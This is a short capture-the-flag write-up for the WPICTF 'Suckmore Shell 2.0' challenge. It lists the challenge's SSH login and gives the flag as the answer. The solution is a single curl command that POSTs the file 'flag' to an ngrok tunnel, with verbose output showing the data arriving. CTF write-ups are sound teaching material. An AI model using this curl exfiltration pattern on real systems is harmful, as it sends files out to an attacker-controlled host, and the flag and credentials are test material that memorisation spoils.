 # linux - Suckmore Shell 2.0

## Challenge
After its abysmal performance at WPICTF 2019, suckmore shell v1 has been
replaced with a more secure, innovative and performant version, aptly named
suckmore shell V2.

ssh smsh@smsh.wpictf.xyz pass: suckmore>suckless

made by: acurless

## Solution
```
> curl -v --data @flag http://0ef6851e.ngrok.io
*   Trying 3.13.191.225:80...
* Connected to 0ef6851e.ngrok.io (3.13.191.225) port 80 (#0)
> POST / HTTP/1.1
> Host: 0ef6851e.ngrok.io
> User-Agent: curl/7.69.1
> Accept: */*
> Content-Length: 47
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 47 out of 47 bytes
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Server: BaseHTTP/0.3 Python/2.7.16
< Date: Sat, 18 Apr 2020 00:12:31 GMT
<
* Closing connection 0
This is POST request. Received: echo
"WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}">
```

## Flag
```
WPI{SUckmoreSoftwareN33dz2G3TitTogeTHER}
```
